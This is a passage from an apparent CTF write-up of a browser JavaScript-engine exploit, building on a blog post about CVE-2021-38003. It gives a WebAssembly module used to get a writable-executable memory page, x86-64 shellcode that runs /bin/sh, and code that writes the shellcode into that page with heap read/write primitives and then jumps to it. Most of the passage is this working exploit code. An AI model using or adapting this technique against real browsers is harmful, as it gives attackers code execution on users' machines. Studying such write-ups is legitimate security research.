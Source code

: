 However, in this [article section](https://starlabs.sg/blog/2022/12-the-hole-new-world-how-a-small-leak-will-sink-a-great-browser-cve-2021-38003/#writing-and-executing-our-shellcode), it is explained how to bypass this mitigation if it was enabled.

<hr>

Hopefully we already have all of our primitives, we just need to setup the wasm:

```js
let wasm_code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
let wasm_mod = new WebAssembly.Module(wasm_code);
let wasm_instance = new WebAssembly.Instance(wasm_mod);
let f = wasm_instance.exports.main;
```

Then, create a shellcode which calls `/bin/sh`:

```js
const shellcode = new Uint8Array([72, 184, 47, 98, 105, 110, 47, 115, 104, 0, 153, 80, 84, 95, 82, 102, 104, 45, 99, 84, 94, 82, 232, 10, 0, 0, 0, 47, 98, 105, 110, 47, 115, 104, 0, 0, 0, 86, 87, 84, 94, 106, 59, 88, 15, 5]);
```

And then the process is easy:

```js
// Leak rwx area address
let rwx = heap_r(addrof(wasm_instance) + 0x60n);

// Set target to arbitrary write
set_dv_backing_store(rwx);

// Write shellcode byte by byte
for (let i = 0; i < shellcode.length; i++) {
    dv.setUint8(i, shellcode[i]);
}

// Jump on our shellcode
f();
```

Let us try our exploit:

![flag_local](images/flag_local.png)
